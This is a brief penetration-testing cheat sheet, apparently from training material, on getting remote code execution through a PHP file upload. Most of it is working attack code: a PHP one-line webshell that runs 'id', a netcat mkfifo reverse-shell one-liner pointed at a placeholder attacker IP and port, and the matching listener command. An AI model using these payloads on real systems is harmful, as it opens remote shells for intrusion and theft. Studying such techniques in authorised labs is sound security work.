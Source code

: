 # Testing RCE

## PHP File Upload Test

The following snippet can be used to test for code execution.

### Code: `php`

    <?php system('id'); ?>

## Reverse Shell `PHP` Script

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f

Uupload the file again and start a `netcat` listener in our terminal:

    MBWest@htb[/htb]$ nc -lvnp 9443


